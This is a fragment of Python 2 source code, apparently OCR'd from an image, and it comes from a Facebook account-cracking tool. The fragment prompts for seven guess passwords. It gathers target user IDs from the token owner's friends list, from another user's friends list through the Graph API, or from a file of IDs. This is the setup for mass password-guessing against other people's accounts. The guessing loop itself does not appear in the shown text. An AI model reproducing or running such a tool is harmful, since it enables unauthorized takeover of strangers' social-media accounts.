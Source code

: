 def choice_action():
	bch = raw_input("\n>>>")
	if bch =="":
		print ("[!] Fill in correctly")
		choice_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		print (40*"-")
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			choice_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			pass1=raw_input(" Put Password No 1 : ")
			pass2=raw_input(" Put Password No 2 : ")
			pass3=raw_input(" Put Password No 3 : ")
			pass4=raw_input(" Put Password No 4 : ")
			pass5=raw_input(" Put Password No 5 : ")
			pass6=raw_input(" Put Password No 6 : ")
			pass7=raw_input(" Put Password No 7 : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")